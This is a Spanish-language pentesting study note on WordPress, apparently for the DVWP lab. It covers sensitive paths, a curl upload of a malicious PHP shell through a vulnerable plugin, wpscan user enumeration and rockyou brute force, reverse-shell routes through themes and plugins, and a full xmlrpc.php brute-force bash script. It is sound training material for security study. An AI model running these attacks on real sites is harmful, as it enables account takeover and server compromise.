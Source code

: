 # WordPress

Tags: #WordPress #CMS 

## Enumeración de gestores de contenido (CMS) – WordPress

WordPress es un CMS de código abierto muy popular que fue lanzado en 2003. Es utilizado por millones de sitios web en todo el mundo y se destaca por su facilidad de uso y flexibilidad. Con WordPress, los usuarios pueden crear y personalizar sitios web sin necesidad de conocimientos de programación avanzados. Además, cuenta con una amplia variedad de plantillas y plugins que permiten añadir funcionalidades adicionales al sitio.

El proyecto que utilizamos en esta clase para enumerar un WordPress es el siguiente:

-   **DVWP**: [https://github.com/vavkamil/dvwp](https://github.com/vavkamil/dvwp)

Una de las herramientas que utilizamos en esta clase para enumerar este gestor de contenido es **Wpscan**. Wpscan es una herramienta de código abierto que se utiliza para escanear sitios web en busca de vulnerabilidades de seguridad en WordPress.

Con Wpscan, podemos realizar una enumeración completa del sitio web y obtener información detallada sobre la instalación de WordPress, como la versión utilizada, los plugins y temas instalados y los usuarios registrados en el sitio. También nos permite realizar pruebas de fuerza bruta para descubrir contraseñas débiles y vulnerabilidades conocidas en plugins y temas.

Wpscan es una herramienta muy útil para los administradores de sitios web que desean mejorar la seguridad de su sitio WordPress, ya que permite identificar y corregir vulnerabilidades antes de que sean explotadas por atacantes malintencionados. Además, es una herramienta fácil de usar y muy efectiva para identificar posibles debilidades de seguridad en nuestro sitio web.

## Rutas típicas de WordPress en la web 

```python
/wp-login.php                        # Es la ruta del panel de autenticación 
/wordpress/wp-login.php
/wp-admin.php                        # Es la ruta del panel de autenticación de admin
/wp-admin/
/wp-json/wp/v2/users/                # Reporta usuarios validos en la pagina de WordPress en formato Json
/wp-content/plugins                  # Ver si podemos hacer 'directory listing' y ver los plugins existentes
/xmlrpc.php                          # Si esta expuesto, podemos enumerar usuarios 
```

## Ruta típica en consola

```python 
/var/www/html/                 # Ruta donde se encuentra 'phpinfo.php | wordpress | index.html'

# Archivos que se encuentran en 'admin', este tiene la configuracion del 'phpadmin'

# Archivos que se enecuentran dentro del directorio 'WordPress'
wordpress.conf                 # Archivo con configuracion del WordPress y se encuentra en /etc/apache2/sites-enabled/ 
wp-config.php                  # Archivo con credenciales de acceso a la DB, se encuentra en /var/www/html, o en la ruta /usr/share/wordpress/ y contiene todas las configuraciones de Wordpress
wp-settings.php                # Se encarga de hacer la subida de los plugins


/wp-admin/                     # Directorio que contiene el formulario y se encuentra en /var/www/html/wordpress/ 
/wp-content/                   # Directorio que contiene los 'plugins, themes'
Nota: No se cuenta el 'index.php' como tema o plugin, ademas, si existe un 'plugin' que puede ser vulnerable, lo podemos explotar con 'Metasploit'
```
## Subir archivo a WordPress 

```bash 
# Se puede subir un archivo malicioso con extension PHP si en el Wordpress esta el plugin con la vulnerabilidad que lo permite

❯ curl -F "Filedata=@./shell.php" https://IP/wp-content/plugins/wpstorecart/php/upload.php     # Subimos un archivo PHP malicioso llamado 'shell.php'
```

## WordPress Enumeración 

```bash 
# Enumeración
1. Buscar usuarios en la pagina Web y validarlos en el 'Panel de Login'
2. Buscar credenciales por defecto para WordPress
3. Enumeracion de directorios 'Dirb, Gobuster, etc...'
4. Usar 'Whatweb' para ver la version del WordPress
5. Aunque tengamos la utlima version de 'WordPress' mientras tenga 'Plugins' desactualizados, será vulnerable 
6. Buscar 'plugins' en el codigo fuente o usando el comando 'curl'
7. Usar Wpscan para enumeracion de 'usuarios, passwords, plugins'
8. Fuerza bruta a la password de los usuarios con 'Hydra' con caracteres especiales del 'panel de login'
```

```bash
❯ wpscan --url ❮http://IP/❯                               # Detecta vulnerabilidades en un wordPress
```

```bash
❯ wpscan --url http://URL/wordpress -e u,vp               # Enumeracion de usuarios y plugins vulnerables 

	# e = Enumerar multiples cosas 
	# u = Enumerar usuarios
	# vp = Enumerar plugins vulnerables

❯ wpscan --url http://URL/ --passwords /usr/share/wordlists/rockyou.txt       # BruteForce 

	# passwords = Enumerar passwords a todos los usuarios que encuentre la herramienta

❯ wpscan --url <http://URL/> -e u,vp --plugins-detection aggressive           # Enumeracion de plugins de manera agresiva 
	
	# plugins-detection = Enumeracion de plugins (mixed, passive, aggressive)
```

## Escalar en Wordpress

```bash 
1. Para escalar en Wordpress y obtener una revershell lo puedes hacer de diferentes maneras:
	1. Editar un 'tema' del panel de admin y escribir codigo 'PHP' para ejecutar comandos, debemos de saber la ruta en donde se encuentra instalado el tema, ya que ahi podremos ejecutar comandos '?cmd=whoami'
	2. Podemos subir un 'Plugin' en formato .ZIP desde el panel de admin que contenga codigo 'PHP' con una revershell a nuestra IP, para que al momento de instalarlo nos regrese automaticamente la revershell a nuestra maquina de atacante
```


El **API Token** lo podemos descargar registrándonos desde la siguiente url:
* [API-Token](https://wpscan.com/register)

```bash
❯ wpscan --url <http://URL/> -e vp --api-token="DFFGB15GD68DG618GD81GRD"     # Enumeracion 

	# vp = Enumerar plugins vulnerables
	# api-token = Nos representa de mejor manera las vulnerabilidades con el API Token
```

```bash
❯ wpscan --url <http://IP/> -U <USER> -P /usr/share/wordlists/rockyou.txt # Fuerza bruta cuando tenemos un usuario valido

	# P = Ruta del diccionario 
	# U = Usuario valido
```

```bash
❯ curl -s -X GET "http://IP/" | grep -oP 'plugins/\k[^/]+' | sort -u # Filtramos por plugins en la pagina web y ver si alguno es vulnerable y lo podriamos buscar en Searchsploit

	# \K = Quita la palabra de la izquierda (plugins) 
	# [^/]+ = Muestra hasta la primer barra derecha en la busqueda y quita todo lo de la derecha   
	# sort u = Quitar los resultados repetidos y dejar los 'unicos'
	# s = Modo silencioso 
```

## Abusando de xmlrpc.php

Si esta expuesto, podemos enumerar credenciales validas y solo acepta peticiones por **POST** y que este estructurada en **XML**
* Debemos de listar los métodos y lo haremos con el código del archivo y ver si existe el siguiente **wp.getUsersBlogs** y después aplicar fuerza bruta
* [Xmlrpc-Abuse](https://nitesculucian.github.io/2019/07/01/exploiting-the-xmlrpc-php-on-all-wordpress-versions/)

```bash
❯ curl -s -X POST "http://IP/xmlrpc.php" -d@file.xml   # Forma de tramitar el archivo por POST

	# d@ = Indicamos el archivo que usaremos y es que esta abajo 
```

```bash
# Listamos los métodos en 'xmlrpc.php'

❯ nvim file.xml

	<?xml version="1.0" encoding="utf-8"?> 
	<methodCall> 
	<methodName>system.listMethods</methodName> 
	<params></params> 
	</methodCall>
```

```bash 
# Creamos un archivo llamado 'xmlrpc_bruteforce.sh' para hacer el ataque 'Brute force' y enumerar 

#!/bin/bash 

function ctrl_c(){
	echo -e "\n\n[!] Saliendo...\n"
	tput cnorm; exit 1
}

# Ctrl_c
trap ctrl_c INT

tput civis

function createXML(){
	password=$1

	xmlFile="""
	<?xml version=\"1.0\" encoding=\"UTF-8\"?>
	<methodCall> 
	<methodName>wp.getUsersBlogs</methodName> 
	<params> 
	<param><value>omar</value></param> 
	<param><value>$password</value></param> 
	</params> 
	</methodCall>
	"""
	echo $xmlFile > file.xml
	response=$(curl -s -X POST "http://IP/xmlrpc.php" -d@file.xml)

	if [ ! "$(echo $response | grep 'Incorrect username or password.')" ]; then 
		echo -e "\n[+] La contraseña para el usuario omar es $password"
		echo 0
	fi
}

cat /usr/share/wordlists/rockyou.txt | while read password; do 
	createXML $password
done 
```